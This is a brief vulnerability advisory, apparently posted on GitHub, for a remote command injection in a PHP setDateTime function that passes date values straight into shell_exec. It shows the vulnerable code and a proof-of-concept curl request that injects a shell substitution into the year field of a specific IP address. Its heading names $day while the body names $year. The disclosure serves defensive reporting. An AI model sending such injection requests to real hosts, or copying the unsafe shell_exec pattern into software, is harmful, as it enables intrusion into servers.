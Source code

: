 # `$day` parameter in the file `settingsregional.php ` has a Remote Command Injection

### Description

The  parameter **$year** in `setDataTime` function in the file `\usr\www\application\models\settingsregional.php`  has a Remote Command Injection vulnerablilty .

`\usr\www\application\models\settingsregional.php`

```php
public function setDateTime($year, $month, $day, $hour, $minute)
{
    shell_exec(sprintf('timedatectl set-time "%s-%s-%s %s:%s"',
        $year,
        $month,
        $day,
        $hour,
        $minute
    ));
}
```

### POC

```
curl -X POST "http://222.103.211.89:8004/settings/setDateTime/2005\$(id>poc.txt)/1/1/1/1" -H "Host: XXXXX"
```

### Example 

```
curl -X POST "http://222.103.211.89:8004/settings/setDateTime/2005\$(id>poc.txt)/1/1/1/1" -H "Host: 222.103.211.89:8004"
```



![image-20250506235345669](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505062353735.png)

![image-20250317212504659](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172125734.png)